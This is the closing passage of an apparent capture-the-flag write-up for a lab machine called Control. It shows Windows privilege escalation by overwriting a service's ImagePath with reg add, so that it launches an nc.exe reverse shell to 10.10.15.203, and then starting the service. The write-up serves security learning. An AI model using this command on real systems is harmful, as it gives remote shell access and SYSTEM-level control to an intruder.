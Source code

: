 That means the service is attackable because we can tell Windows to start it after overwriting the original registry value with our payload, which could simply be an nc.exe reverse shell, in that case [reg add](https://ss64.com/nt/reg.html) is used to change a service’s ImagePath key like this:

```aaa
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\netsetupsvc /v ImagePath /D "C:\Users\Hector\Documents\nc.exe -e cmd.exe 10.10.15.203 7777"
```

Run Start-Service after the write operation and the payload will be executed:

![img](/images/writeup-control/14.png)

This concludes the writeup for Control, I hope it was exhaustive, interesting, and comprehensible all at the same time.

Stay safe.

